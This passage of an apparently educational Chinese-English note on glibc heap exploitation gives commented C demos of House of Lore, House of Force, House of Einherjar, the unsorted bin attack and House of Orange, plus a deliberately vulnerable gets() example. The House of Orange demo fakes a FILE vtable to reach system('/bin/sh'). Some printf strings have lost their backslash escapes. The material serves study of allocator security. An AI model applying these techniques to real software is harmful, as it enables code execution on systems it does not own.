	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```


## 5. House of Lore / UAF on smallbin

这个攻击其实是针对smallbin的forging chunks attack，如果我们能够修改已经被free的smallchunk的fd和bk，那么我们可以伪装使得malloc返回我们自定义的chunk，这里malloc smallchunk时是从尾部取的。

* 条件
  * 能够修改已free的chunk的fd和bk
* 安全检查
  * malloc时，设尾部的chunk为victim，则需保证`victim->bk->fd == victim`。该检查在malloc正常free的chunk时会有，此外在malloc假的chunk时也会有，因此需构造两个假的chunk来满足检查

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct small_chunk {
  size_t prev_size;
  size_t size;
  struct small_chunk *fd;
  struct small_chunk *bk;
  char buf[0x64];               // chunk falls in smallbin size range
};

int main() {
  struct small_chunk fake_chunk, another_fake_chunk;
  struct small_chunk *real_chunk;
  unsigned long long *ptr, *victim;
  int len;

  printf("%p\n", &fake_chunk);

  len = sizeof(struct small_chunk);

  // Grab two small chunk and free the first one
  // This chunk will go into unsorted bin
  ptr = malloc(len);
  printf("%p\n", ptr);
  // The second malloc can be of random size. We just want that
  // the first chunk does not merge with the top chunk on freeing
  printf("%p\n", malloc(len));
  free(ptr);

  real_chunk = (struct small_chunk *)(ptr - 2);
  printf("%p\n", real_chunk);

  // Grab another chunk with greater size so as to prevent getting back
  // the same one. Also, the previous chunk will now go from unsorted to
  // small bin
  printf("%p\n", malloc(len + 0x10));

  // Make the real small chunk's bk pointer point to &fake_chunk
  // This will insert the fake chunk in the smallbin
  real_chunk->bk = &fake_chunk;
  // and fake_chunk's fd point to the small chunk
  // This will ensure that 'victim->bk->fd == victim' for the real chunk
  fake_chunk.fd = real_chunk;

  // We also need this 'victim->bk->fd == victim' test to pass for fake chunk
  fake_chunk.bk = &another_fake_chunk;
  another_fake_chunk.fd = &fake_chunk;

  // Remove the real chunk by a standard call to malloc
  printf("%p\n", malloc(len));

  // Next malloc for that size will return the fake chunk
  victim = malloc(len);
  printf("%p\n", victim);

  return 0;
}
```

上述利用代码需要注意的两个地方，

0. 一个是free正常的chunk之前需要再申请任意大小的一个chunk，使得free时不会与top合并
1. free之后chunk会到unsorted bin，此时需要再次malloc另一个大小的chunk，让之前的chunk进入smallbin

The state of the unsorted bin and the small bin are shown:

1. free(ptr). Unsorted bin:

   > head <-> ptr <-> tail

   Small bin:

   > head <-> tail

2. malloc(len + 0x10); Unsorted bin:

   > head <-> tail

   Small bin:

   > head <-> ptr <-> tail

3. Pointer manipulations Unsorted bin:

   > head <-> tail

   Small bin:

   > undefined <-> fake_chunk <-> ptr <-> tail

4. malloc(len) Unsorted bin:

   > head <-> tail

   Small bin:

   > undefined <-> fake_chunk <-> tail

5. malloc(len) Unsorted bin:

   > head <-> tail

   Small bin:

   > undefined <-> tail [ Fake chunk is returned ]

Note that another 'malloc' call for the corresponding small bin will result in a segmentation fault.

## 6. House of Force / Increase top chunk size

这个攻击是针对topchunk的攻击，如果我们可以修改topchunk的大小，将他改成特别大（-1），那么我们可以通过计算malloc的传入参数，使得我们可以用malloc返回任意的地址，这个任意地址可以在topchunk的前面和后面，因为malloc的参数是负数也可以，会整数溢出然后正常利用。

* 条件
  * 能够修改top chunk的大小

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Attacker will force malloc to return this pointer
char victim[] = "This is victim's string that will returned by malloc";

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  struct chunk_structure *chunk, *top_chunk;
  unsigned long long *ptr;
  size_t requestSize, allotedSize;

  //void *victim = main;

  printf("%p\n", victim);

  // First, request a chunk, so that we can get a pointer to top chunk
  ptr = malloc(256);
  chunk = (struct chunk_structure *)(ptr - 2);
  printf("%p\n", chunk);

  // lower three bits of chunk->size are flags
  allotedSize = chunk->size & ~(0x1 | 0x2 | 0x4);

  // top chunk will be just next to 'ptr'
  top_chunk = (struct chunk_structure *)((char *)chunk + allotedSize);
  printf("%p\n", top_chunk);

  // here, attacker will overflow the 'size' parameter of top chunk
  top_chunk->size = -1;       // Maximum size

  // Might result in an integer overflow, doesn't matter
  requestSize = (size_t)victim            // The target address that malloc should return
                  - (size_t)top_chunk     // The present address of the top chunk
                  - 2*sizeof(long long)   // Size of `size` and `prev_size`
                  - sizeof(long long);    // Additional buffer

  // This also needs to be forced by the attacker
  // This will advance the top_chunk ahead by (requestSize+header+additional buffer)
  // Making it point to `victim`
  printf("%p\n", malloc(requestSize));

  // The top chunk again will service the request and return `victim`
  ptr = malloc(100);
  printf("%p\n", ptr);

  return 0;
}
```

上述代码中，假设想申请的地址在top chunk后面，那么示意图如下

```
|				| 8	| 8	| 8	|			|		|	|
|	last chunk	|  		top chunk		| .....	| P	|
|				|						|		|	|
							|--- requestSize ---|
```

这里主要requestSize中多减了一个8，那是因为chunk大小计算的时候需要加8再向上对齐。

## 7. House of Einherjar / rewrite prev_size and `P` 

这种攻击通过溢出来修改下一个chunk的`P`位，并且修改下一个chunk的prev_size，使得合并的时候能够过多的合并，通过精确计算prev_size，使得下一次malloc的时候申请到假的chunk

* 条件
  * 溢出覆盖`P`
  * 能够伪造虚假chunk
* 安全检查
  * 假的chunk P需要满足`P->fd->bk == P and P->bk->fd == P`
  * 假的chunk P后面的chunk需要满足`chunksize(P) == prev_size (next_chunk(P)), 0)`

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[0xe0];               // padding
};

int main() {
  struct chunk_structure *chunk1, fake_chunk, fake_chunk2;
  size_t allotedSize;
  unsigned long long *ptr1, *ptr2;
  char *ptr;
  void *victim;

  printf("%p\n", &fake_chunk);
  printf("%p\n", &fake_chunk2);

  // Allocate any chunk
  ptr1 = malloc(40);
  printf("%p\n", ptr1);

  // Allocate another chunk
  ptr2 = malloc(0xf8);
  printf("%p\n", ptr2);

  chunk1 = (struct chunk_structure *)(ptr1 - 2);
  allotedSize = chunk1->size & ~(0x1 | 0x2 | 0x4);
  allotedSize -= sizeof(size_t);      // Heap meta data for 'prev_size' of chunk1

  // Attacker initiates a heap overflow
  // Off by one overflow of ptr1, overflows into ptr2's 'size'
  ptr = (char *)ptr1;
  ptr[allotedSize] = 0;      // Zeroes out the PREV_IN_USE bit

  // Fake chunk
  fake_chunk.size = 0x100;    // enough size to service the malloc request
  // These two will ensure that unlink security checks pass
  // i.e. P->fd->bk == P and P->bk->fd == P
  fake_chunk.fd = &fake_chunk;
  fake_chunk.bk = &fake_chunk;

  // This is needed to pass ‘chunksize(P) == prev_size (next_chunk(P)), 0)’
  fake_chunk2.prev_size = 0x100;

  // Overwrite ptr2's prev_size so that ptr2's chunk - prev_size points to our fake chunk
  // This falls within the bounds of ptr1's chunk - no need to overflow
  *(size_t *)&ptr[allotedSize-sizeof(size_t)] =
                                  (size_t)&ptr[allotedSize - sizeof(size_t)]  // ptr2's chunk
                                  - (size_t)&fake_chunk;

  // Free the second chunk. It will detect the previous chunk in memory as free and try
  // to merge with it. Now, top chunk will point to fake_chunk
  free(ptr2);

  victim = malloc(40);

  printf("%p\n", victim);

  return 0;
}
```

这里有两个安全检查，第一个是unlink的常见链表指针检查，另一个是新添加的对后一个chunk的prev_size的检查，这里并不检查后一个chunk的`P`位，默认unlink的对象是已经unused。

合并的chunk的大小并不是两个偏移的距离，而是假chunk和原chunk的大小的和，因此这里的假chunk大小需要合理设置来满足新malloc的要求。

## 8. ASLR绕过 / ASLR低位覆盖

ASLR可以低位覆盖，x64上地址都是使用小尾数，因此可以覆盖一个字节就可以覆盖低位地址，从而使得部分地址一致

例题（Maybe not runnable）

```c
#include<stdio.h>

struct role{
    void *func;
    char *name;
    size_t name_lenth;
    int n;
}

void print(role *p_role){
    printf("%s %d\n", p_role->name, p_role->n);
}

int main(){
    char buf[128]; // on stack
    role* p_role; // on stack
    while (1)
    {
        p_role = malloc(sizeof(role));
        p_role->func = &print;
        gets(buf);
        p_role->name_lenth = strlen(buf);
        p_role->name = malloc(p_role->name_length);
        gets(buf);
        p_role->n = atoi(buf);
        print(p_role);
    }
}
```

上述代码中，有很明显的栈溢出，可以使用低位覆盖，来泄露出堆地址。因为代码并不会存储之前循环申请的地址，因此需通过合理的堆布局，使得name指向的地址能够是新一轮的p_role申请的地址，进而再次覆盖成原p_role然后打印出来。

## 9. Unsorted Bin Attack

堆在分配的时候，如果在申请的内存大小所对应的small bin或者large bin里面没有找到对应的chunk，此时会从unsorted bin里面去寻找chunk看是否存在合适的内存分配给用户，这个过程中会把unsorted bin链表给清空，清空的过程中没有进行检查，由此可能会发生任意地址可写。源代码如下：

```c
while(victim = unsorted_chunks (av)->bk) != unsorted_chunks (av))
//...
bck = victim->bk;
/* remove from unsorted list */
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
```

试想如果bck的fd可以被我们控制，这个时候我们就可以让它指向任意地址，最终使`(bck->fd)+0x10`的值被修改成unsorted_chunks(av)，从而实现任意地址写，后续如果能够控制它指向到我们可控的内存区域，最终就有可能会控制整个程序。注意这里`unsorted_chunks (av)->bk`被改成了错误地址，有可能使得下一次`malloc`发生异常。

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
  printf("This file demonstrates unsorted bin attack by write a large unsigned "
         "long value into stackn");
  printf(
      "In practice, unsorted bin attack is generally prepared for further "
      "attacks, such as rewriting the "
      "global variable global_max_fast in libc for further fastbin attacknn");

  unsigned long stack_var = 0;
  printf("Let's first look at the target we want to rewrite on stack:n");
  printf("%p: %ldnn", &stack_var, stack_var);

  unsigned long *p = malloc(400);
  printf("Now, we allocate first normal chunk on the heap at: %pn", p);
  printf("And allocate another normal chunk in order to avoid consolidating "
         "the top chunk with"
         "the first one during the free()nn");
  malloc(500);

  free(p);
  printf("We free the first chunk now and it will be inserted in the unsorted "
         "bin with its bk pointer "
         "point to %pn",
         (void *)p[1]);

  //------------VULNERABILITY-----------

  p[1] = (unsigned long)(&stack_var - 2);
  printf("Now emulating a vulnerability that can overwrite the victim->bk "
         "pointern");
  printf("And we write it with the target address-16 (in 32-bits machine, it "
         "should be target address-8):%pnn",
         (void *)p[1]);

  //------------------------------------

  malloc(400);
  printf("Let's malloc again to get the chunk we just free. During this time, "
         "target should has already been "
         "rewrite:n");
  printf("%p: %pn", &stack_var, (void *)stack_var);
}
```

## 10.House of orange / 减少Top chunk大小

在一个没有free的程序里，如果我们想生成unsorted chunk并且使用`Unsorted Bin Attack`时，可以通过溢出减少top chunk的大小，然后通过分配一个大一点的chunk（不超过mmap.threhold），使得libc使用sbrk系统调用增加arena的下限，生成新的top chunk，并且把原来的变小的topchunk放到unsorted bin里，这样就可以使用`Unsorted Bin Attack`了。

在HITCON CTF Qual 2016的一道题目House of orange中（[下载地址](https://github.com/ctfs/write-ups-2016/tree/master/hitcon-ctf-2016/pwn/house-of-orange-500)），使用了上述的方法展开了`Unsorted Bin Attack`，并且复写了libc的错误处理流程中的函数，使之执行`system`。

具体根据源码来看一下，以下分析基于glibc2.23

首先看一下glibc的错误处理函数`malloc_printerr`，在出现重大错误时，比如`unsorted bin attack`，会调用`abort`函数退出程序：

```c
static void
malloc_printerr (int action, const char *str, void *ptr, mstate ar_ptr)
{
  //...
  else if (action & 2)
    abort ();
}
```

再具体看一下`abort`函数，内部会调用`fflush`函数，

```c
void
abort (void)
{
  struct sigaction act;
  sigset_t sigs;

  /* First acquire the lock.  */
  __libc_lock_lock_recursive (lock);

  /* Now it's for sure we are alone.  But recursive calls are possible.  */

  /* Unlock SIGABRT.  */
  if (stage == 0)
    {
      ++stage;
      if (__sigemptyset (&sigs) == 0 &&
	  __sigaddset (&sigs, SIGABRT) == 0)
	__sigprocmask (SIG_UNBLOCK, &sigs, (sigset_t *) NULL);
    }

  /* Flush all streams.  We cannot close them now because the user
     might have registered a handler for SIGABRT.  */
  if (stage == 1)
    {
      ++stage;
      fflush (NULL);
    }
  //...
}
```

而`fflush`定义位于`abort`函数的上方

```c
#include <libio/libioP.h>
#define fflush(s) _IO_flush_all_lockp (0)
```

跟进一下`_IO_flush_all_lockp`函数，可以看到调用了`_IO_OVERFLOW`函数

```c
int _IO_flush_all_lockp(int do_lock)
{
  int result = 0;
  struct _IO_FILE *fp;
  int last_stamp;

  last_stamp = _IO_list_all_stamp;
  fp = (_IO_FILE *)_IO_list_all;
  while (fp != NULL)
  {
    run_fp = fp;
    if (do_lock)
      _IO_flockfile(fp);

    if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)) &&
        _IO_OVERFLOW(fp, EOF) == EOF)
      result = EOF;

    if (do_lock)
      _IO_funlockfile(fp);
    run_fp = NULL;

    if (last_stamp != _IO_list_all_stamp)
    {
      /* Something was added to the list.  Start all over again.  */
      fp = (_IO_FILE *)_IO_list_all;
      last_stamp = _IO_list_all_stamp;
    }
    else
      fp = fp->_chain;
  }
  return result;
}
```

而`_IO_OVERFLOW`是一系列宏定义的组合

```c
/* Type of MEMBER in struct type TYPE.  */
#define _IO_MEMBER_TYPE(TYPE, MEMBER) __typeof__ (((TYPE){}).MEMBER)
/* Essentially ((TYPE *) THIS)->MEMBER, but avoiding the aliasing
   violation in case THIS has a different pointer type.  */
#define _IO_CAST_FIELD_ACCESS(THIS, TYPE, MEMBER) \
  (*(_IO_MEMBER_TYPE (TYPE, MEMBER) *)(((char *) (THIS)) \
				       + offsetof(TYPE, MEMBER)))
#define _IO_JUMPS_FILE_plus(THIS) \
  _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE_plus, vtable)
#define _IO_JUMPS_FUNC(THIS) _IO_JUMPS_FILE_plus (THIS)
#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)
```

相关的结构体`_IO_FILE_plus`、`_IO_FILE`、

```c
struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;
};

struct _IO_FILE {
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;	/* Current read pointer */
  char* _IO_read_end;	/* End of get area. */
  char* _IO_read_base;	/* Start of putback+get area. */
  char* _IO_write_base;	/* Start of put area. */
  char* _IO_write_ptr;	/* Current put pointer. */
  char* _IO_write_end;	/* End of put area. */
  char* _IO_buf_base;	/* Start of reserve area. */
  char* _IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
  int _flags2;
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
  _IO_off64_t _offset;
  void *__pad1;
  void *__pad2;
  void *__pad3;
  void *__pad4;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
struct _IO_jump_t {
      JUMP_FIELD(size_t, __dummy);
      JUMP_FIELD(size_t, __dummy2);
      JUMP_FIELD(_IO_finish_t, __finish);
      JUMP_FIELD(_IO_overflow_t, __overflow);
      JUMP_FIELD(_IO_underflow_t, __underflow);
      JUMP_FIELD(_IO_underflow_t, __uflow);
      JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
      /* showmany */
      JUMP_FIELD(_IO_xsputn_t, __xsputn);
      JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
      JUMP_FIELD(_IO_seekoff_t, __seekoff);
      JUMP_FIELD(_IO_seekpos_t, __seekpos);
      JUMP_FIELD(_IO_setbuf_t, __setbuf);
      JUMP_FIELD(_IO_sync_t, __sync);
      JUMP_FIELD(_IO_doallocate_t, __doallocate);
      JUMP_FIELD(_IO_read_t, __read);
      JUMP_FIELD(_IO_write_t, __write);
      JUMP_FIELD(_IO_seek_t, __seek);
      JUMP_FIELD(_IO_close_t, __close);
      JUMP_FIELD(_IO_stat_t, __stat);
      JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
      JUMP_FIELD(_IO_imbue_t, __imbue);
    };
```

综合上面的信息，可以看出`_IO_OVERFLOW`函数实际上就是取得了`_IO_list_all`指针，然后得到了`vtable`的地址，随后取得`vtable`中第4个地址，然后跳转过去。

因此只要我们可以复写`_IO_list_all`指针、伪造一个`_IO_list_all`结构，并且重写`vatble`的第4个地址为`system`，就可以命令执行了。

复写`_IO_list_all`指针可以使用`Unsorted Bin Attack`，使得`_IO_list_all`可以指向`unsorted_chunks (av)`，但是此时的为`vatble`指向的是`bins`，这里我们需要使用`_IO_flush_all_lockp`函数中的`fp = fp->_chain;`操作更新`fp`的值，这里`fp->_chain`位于偏移0x68，因此需要合理布局unsorted chunk的大小，使之在回收的时候能进入位于0x68偏移处的smallbin，也即大小为0x60的smallbin

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/*
  The House of Orange uses an overflow in the heap to corrupt the _IO_list_all pointer
  It requires a leak of the heap and the libc
  Credit: http://4ngelboy.blogspot.com/2016/10/hitcon-ctf-qual-2016-house-of-orange.html
*/

/*
   This function is just present to emulate the scenario where
   the address of the function system is known.
*/
int winner ( char *ptr);

int main()
{
    /*
      The House of Orange starts with the assumption that a buffer overflow exists on the heap
      using which the Top (also called the Wilderness) chunk can be corrupted.
      
      At the beginning of execution, the entire heap is part of the Top chunk.
      The first allocations are usually pieces of the Top chunk that are broken off to service the request.
      Thus, with every allocation, the Top chunks keeps getting smaller.
      And in a situation where the size of the Top chunk is smaller than the requested value,
      there are two possibilities:
       1) Extend the Top chunk
       2) Mmap a new page

      If the size requested is smaller than 0x21000, then the former is followed.
    */

    char *p1, *p2;
    size_t io_list_all, *top;

    /*
      Firstly, lets allocate a chunk on the heap.
    */

    p1 = malloc(0x400-16);

    /*
       The heap is usually allocated with a top chunk of size 0x21000
       Since we've allocate a chunk of size 0x400 already,
       what's left is 0x20c00 with the PREV_INUSE bit set => 0x20c01.

       The heap boundaries are page aligned. Since the Top chunk is the last chunk on the heap,
       it must also be page aligned at the end.

       Also, if a chunk that is adjacent to the Top chunk is to be freed,
       then it gets merged with the Top chunk. So the PREV_INUSE bit of the Top chunk is always set.

       So that means that there are two conditions that must always be true.
        1) Top chunk + size has to be page aligned
        2) Top chunk's prev_inuse bit has to be set.

       We can satisfy both of these conditions if we set the size of the Top chunk to be 0xc00 | PREV_INUSE.
       What's left is 0x20c01

       Now, let's satisfy the conditions
       1) Top chunk + size has to be page aligned
       2) Top chunk's prev_inuse bit has to be set.
    */

    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;

    /* 
       Now we request a chunk of size larger than the size of the Top chunk.
       Malloc tries to service this request by extending the Top chunk
       This forces sysmalloc to be invoked.

       In the usual scenario, the heap looks like the following
          |------------|------------|------...----|
          |    chunk   |    chunk   | Top  ...    |
          |------------|------------|------...----|
      heap start                              heap end

       And the new area that gets allocated is contiguous to the old heap end.
       So the new size of the Top chunk is the sum of the old size and the newly allocated size.

       In order to keep track of this change in size, malloc uses a fencepost chunk,
       which is basically a temporary chunk.

       After the size of the Top chunk has been updated, this chunk gets freed.

       In our scenario however, the heap looks like
          |------------|------------|------..--|--...--|---------|
          |    chunk   |    chunk   | Top  ..  |  ...  | new Top |
          |------------|------------|------..--|--...--|---------|
     heap start                            heap end

       In this situation, the new Top will be starting from an address that is adjacent to the heap end.
       So the area between the second chunk and the heap end is unused.
       And the old Top chunk gets freed.
       Since the size of the Top chunk, when it is freed, is larger than the fastbin sizes,
       it gets added to list of unsorted bins.
       Now we request a chunk of size larger than the size of the top chunk.
       This forces sysmalloc to be invoked.
       And ultimately invokes _int_free

       Finally the heap looks like this:
          |------------|------------|------..--|--...--|---------|
          |    chunk   |    chunk   | free ..  |  ...  | new Top |
          |------------|------------|------..--|--...--|---------|
     heap start                                             new heap end


    */

    p2 = malloc(0x1000);
    /*
      Note that the above chunk will be allocated in a different page
      that gets mmapped. It will be placed after the old heap's end

      Now we are left with the old Top chunk that is freed and has been added into the list of unsorted bins


      Here starts phase two of the attack. We assume that we have an overflow into the old
      top chunk so we could overwrite the chunk's size.
      For the second phase we utilize this overflow again to overwrite the fd and bk pointer
      of this chunk in the unsorted bin list.
      There are two common ways to exploit the current state:
        - Get an allocation in an *arbitrary* location by setting the pointers accordingly (requires at least two allocations)
        - Use the unlinking of the chunk for an *where*-controlled write of the
          libc's main_arena unsorted-bin-list. (requires at least one allocation)

      The former attack is pretty straight forward to exploit, so we will only elaborate
      on a variant of the latter, developed by Angelboy in the blog post linked above.

      The attack is pretty stunning, as it exploits the abort call itself, which
      is triggered when the libc detects any bogus state of the heap.
      Whenever abort is triggered, it will flush all the file pointers by calling
      _IO_flush_all_lockp. Eventually, walking through the linked list in
      _IO_list_all and calling _IO_OVERFLOW on them.

      The idea is to overwrite the _IO_list_all pointer with a fake file pointer, whose
      _IO_OVERLOW points to system and whose first 8 bytes are set to '/bin/sh', so
      that calling _IO_OVERFLOW(fp, EOF) translates to system('/bin/sh').
      More about file-pointer exploitation can be found here:
      https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/

      The address of the _IO_list_all can be calculated from the fd and bk of the free chunk, as they
      currently point to the libc's main_arena.
    */

    io_list_all = top[2] + 0x9a8;

    /*
      We plan to overwrite the fd and bk pointers of the old top,
      which has now been added to the unsorted bins.

      When malloc tries to satisfy a request by splitting this free chunk
      the value at chunk->bk->fd gets overwritten with the address of the unsorted-bin-list
      in libc's main_arena.

      Note that this overwrite occurs before the sanity check and therefore, will occur in any
      case.

      Here, we require that chunk->bk->fd to be the value of _IO_list_all.
      So, we should set chunk->bk to be _IO_list_all - 16
    */
 
    top[3] = io_list_all - 0x10;

    /*
      At the end, the system function will be invoked with the pointer to this file pointer.
      If we fill the first 8 bytes with /bin/sh, it is equivalent to system(/bin/sh)
    */

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    /*
      The function _IO_flush_all_lockp iterates through the file pointer linked-list
      in _IO_list_all.
      Since we can only overwrite this address with main_arena's unsorted-bin-list,
      the idea is to get control over the memory at the corresponding fd-ptr.
      The address of the next file pointer is located at base_address+0x68.
      This corresponds to smallbin-4, which holds all the smallbins of
      sizes between 90 and 98. For further information about the libc's bin organisation
      see: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/

      Since we overflow the old top chunk, we also control it's size field.
      Here it gets a little bit tricky, currently the old top chunk is in the
      unsortedbin list. For each allocation, malloc tries to serve the chunks
      in this list first, therefore, iterates over the list.
      Furthermore, it will sort all non-fitting chunks into the corresponding bins.
      If we set the size to 0x61 (97) (prev_inuse bit has to be set)
      and trigger an non fitting smaller allocation, malloc will sort the old chunk into the
      smallbin-4. Since this bin is currently empty the old top chunk will be the new head,
      therefore, occupying the smallbin[4] location in the main_arena and
      eventually representing the fake file pointer's fd-ptr.

      In addition to sorting, malloc will also perform certain size checks on them,
      so after sorting the old top chunk and following the bogus fd pointer
      to _IO_list_all, it will check the corresponding size field, detect
      that the size is smaller than MINSIZE "size <= 2 * SIZE_SZ"
      and finally triggering the abort call that gets our chain rolling.
      Here is the corresponding code in the libc:
      https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#3717
    */

    top[1] = 0x61;

    /*
      Now comes the part where we satisfy the constraints on the fake file pointer
      required by the function _IO_flush_all_lockp and tested here:
      https://code.woboq.org/userspace/glibc/libio/genops.c.html#813

      We want to satisfy the first condition:
      fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base
    */

    _IO_FILE *fp = (_IO_FILE *) top;


    /*
      1. Set mode to 0: fp->_mode <= 0
    */

    fp->_mode = 0; // top+0xc0


    /*
      2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
    */

    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28


    /*
      4) Finally set the jump table to controlled memory and place system there.
      The jump table pointer is right after the _IO_FILE struct:
      base_address+sizeof(_IO_FILE) = jump_table

         4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
    */

    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(_IO_FILE)) = (size_t) jump_table; // top+0xd8


    /* Finally, trigger the whole chain by calling malloc */
    malloc(10);

   /*
     The libc's error message will be printed to the screen
     But you'll get a shell anyways.
   */

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

